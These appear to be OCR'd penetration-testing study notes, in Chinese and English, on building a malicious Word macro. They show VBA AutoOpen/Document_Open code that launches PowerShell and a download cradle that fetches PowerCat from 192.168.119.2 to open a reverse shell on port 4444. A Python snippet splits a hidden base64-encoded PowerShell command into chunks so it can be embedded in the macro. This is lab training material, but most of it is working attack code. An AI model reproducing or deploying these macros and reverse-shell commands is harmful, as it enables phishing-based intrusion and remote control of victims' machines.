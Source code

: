 (7) Renew VBA code
```WScript
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"
  
End Sub
```
(8) 儲存後重開檔案。 security warning 選擇 Enable Content。\
(9) 成功跳出 PowerShell 視窗

#### execution of current macro to a reverse shell: PowerCat
(1) 透過 [cradle](https://gist.github.com/HarmJ0y/bb48307ffa663256e239) 下載 PowerCat\
(2) 寫入 reverse shell
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
```
(3) base64-encoded PowerShell commands (declared as a String in VBA.)
>[!Warning]
> VBA 的字串長度限制 255-character，所以不能單純將 base64-encoded PowerShell commands 存入單一字串。\
>可以透過 multiple lines 再串接起來

以下分割字串用 python 完成:
```python=
#str 為分割前的指令
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."

n = 50

#for 迴圈輸出符合巨集的格式
for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

(4) 回到 Macro 編輯視窗，透過 `Dim` 宣告 `Str`變數，並且將 PowerShell download 儲存在 `Str`中
```WScript
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    CreateObject("Wscript.Shell").Run Str
End Sub
```
